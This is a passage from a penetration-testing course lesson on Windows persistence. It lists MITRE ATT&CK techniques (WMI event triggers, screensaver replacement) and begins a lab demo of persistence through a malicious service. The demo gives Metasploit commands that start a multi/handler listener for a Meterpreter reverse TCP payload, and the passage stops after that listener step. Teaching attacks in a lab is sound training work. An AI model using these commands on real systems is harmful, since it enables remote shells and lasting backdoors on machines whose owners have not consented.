   - For example, whenever a logon event is created in Windows (which occurs when a user logs in), use WMI to start a new process (which could be a payload). 

- **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pen tester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

These are just some examples of persistence techniques in Windows, and this isn't a comprehensive list.
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, let's use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This requires an active shell as SYSTEM on the Windows 10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows 10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
    **Note:** If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`

     ![A screenshot depicts the results of these commands.](Images/runmulti.PNG)	
